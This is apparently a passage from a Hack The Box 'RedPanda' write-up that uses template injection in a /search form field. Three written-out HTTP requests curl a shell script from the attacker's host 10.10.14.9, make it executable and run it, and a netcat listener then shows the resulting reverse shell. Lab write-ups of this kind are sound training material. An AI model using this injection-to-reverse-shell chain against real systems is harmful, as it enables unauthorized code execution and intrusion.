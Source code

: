 ## User
Now that we have tested code execution we can try to pop a shell.  
We can craft our payload as follow; we can download a shell on the local box: 
```http
POST /search HTTP/1.1
Host: 10.10.11.170:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 93
Origin: http://10.10.11.170:8080
Connection: close
Referer: http://10.10.11.170:8080/stats?author=woodenk
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

name=*{T(java.lang.Runtime).getRuntime().exec('curl+-o+shell.sh+http://10.10.14.9/shell.sh')}
```
change permission to the shell:  
```http
POST /search HTTP/1.1
Host: 10.10.11.170:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Origin: http://10.10.11.170:8080
Connection: close
Referer: http://10.10.11.170:8080/stats?author=woodenk
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

name=*{T(java.lang.Runtime).getRuntime().exec('chmod+777+shell.sh')}
```
and execute the shell:  
```http
POST /search HTTP/1.1
Host: 10.10.11.170:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 63
Origin: http://10.10.11.170:8080
Connection: close
Referer: http://10.10.11.170:8080/stats?author=woodenk
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

name=*{T(java.lang.Runtime).getRuntime().exec('bash+shell.sh')}
```
And then we gain a shell on our listener:  
```shell
root@kali:~/Documents/HTB/Boxes/RedPanda# nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.170] 38256
bash: cannot set terminal process group (892): Inappropriate ioctl for device
bash: no job control in this shell
woodenk@redpanda:/tmp/hsperfdata_woodenk$ id
```